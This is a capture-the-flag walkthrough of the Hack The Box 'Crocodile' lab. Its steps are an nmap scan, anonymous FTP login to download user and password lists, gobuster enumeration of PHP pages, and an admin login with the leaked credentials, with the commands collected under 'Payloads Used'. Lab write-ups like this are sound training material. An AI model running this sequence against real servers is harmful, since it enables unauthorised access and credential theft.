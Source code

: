 ## 🐊 HTB Starting Point: Crocodile  
**Level**: Very Easy  
**Date**: July 1, 2025  
**Goal**: Retrieve credentials from an open FTP server and use them to log into a web portal to get the flag.

---

### 🧰 Tools  
- `nmap`  
- `ftp`  
- `gobuster`  
- Web browser  

---

### 🧭 Steps  

1. 🔎 **Scan the machine** to detect open services:
   ```bash
   nmap -F -sS -sV -n 10.129.X.X
   ```

---

### Output
```bash
PORT   STATE SERVICE VERSION  
21/tcp open  ftp     vsftpd 3.0.3  
80/tcp open  http    Apache httpd 2.4.X  
```

---

2. 📡 **Connect to the FTP service**:
   ```bash
   ftp 10.129.X.X
   ```

---

3. 🔐 **Login using anonymous credentials**:
```bash
Username: anonymous  
Password: [blank or any]
```

---

4. 📥 **Download the credential files**:
   ```bash
   get allowed.userlist
   get allowed.userlist.passwd
   ```

---

### File Content
```bash
# allowed.userlist  
admin  
crocodile  
ftpuser

# allowed.userlist.passwd  
admin:supersecretpassword  
crocodile:snappylogin  
ftpuser:guest123
```

---

5. 📁 **Switch to terminal and enumerate the web server**:
   ```bash
   gobuster dir -u http://10.129.X.X -w /usr/share/wordlists/dirb/common.txt -x .php
   ```

---

### Output
```bash
/login.php  
/dashboard.php  
```

---

6. 📜 **Review the credentials again if needed**:
   ```bash
   cat allowed.userlist.passwd
   ```

---

7. 🔑 **Access the login page**:  
   Go to `http://10.129.X.X/login.php` or `/dashboard.php`  
   Login with:
```bash
Username: admin  
Password: supersecretpassword
```

---

8. 🏁 **Get the flag** from the logged-in dashboard and submit it!

---

### 💣 Payloads Used  
```bash
nmap -F -sS -sV -n 10.129.X.X  
ftp 10.129.X.X  
anonymous login  
get allowed.userlist  
get allowed.userlist.passwd  
gobuster dir -u http://10.129.X.X -w /usr/share/wordlists/dirb/common.txt -x .php  
cat allowed.userlist.passwd
```
